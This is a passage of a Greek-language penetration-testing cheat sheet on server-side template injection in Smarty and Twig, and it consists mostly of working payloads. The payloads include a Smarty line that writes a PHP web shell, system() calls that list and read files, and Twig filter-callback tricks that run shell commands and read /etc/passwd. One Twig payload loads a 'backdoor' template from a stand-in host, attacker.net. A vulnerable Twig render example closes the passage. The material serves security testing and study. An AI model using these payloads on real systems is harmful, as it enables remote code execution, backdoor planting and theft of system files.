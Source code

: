 <figure><img src="../../images/image (7).png" alt=""><figcaption><p><a href="https://miro.medium.com/v2/resize:fit:1100/format:webp/1*NHgR25-CMICMhPOaIJzqwQ.jpeg">https://miro.medium.com/v2/resize:fit:1100/format:webp/1*NHgR25-CMICMhPOaIJzqwQ.jpeg</a></p></figcaption></figure>

- Περισσότερες πληροφορίες στο [https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756](https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756)

##

### Smarty (PHP)
```php
{$smarty.version}
{php}echo `id`;{/php} //deprecated in smarty v3
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
{system('ls')} // compatible v3
{system('cat index.php')} // compatible v3
```
**Περισσότερες πληροφορίες**

- Στην ενότητα Smarty του [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#smarty](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#smarty)

### Twig (PHP)

- `{{7*7}} = 49`
- `${7*7} = ${7*7}`
- `{{7*'7'}} = 49`
- `{{1/0}} = Error`
- `{{foobar}} Nothing`
```python
#Get Info
{{_self}} #(Ref. to current application)
{{_self.env}}
{{dump(app)}}
{{app.request.server.all|join(',')}}

#File read
"{{'/etc/passwd'|file_excerpt(1,30)}}"@

#Exec code
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("whoami")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{['id',""]|sort('system')}}

#Hide warnings and errors for automatic exploitation
{{["error_reporting", "0"]|sort("ini_set")}}
```
**Twig - Μορφή προτύπου**
```php
$output = $twig > render (
'Dear' . $_GET['custom_greeting'],
array("first_name" => $user.first_name)
);

$output = $twig > render (
"Dear {first_name}",
array("first_name" => $user.first_name)
```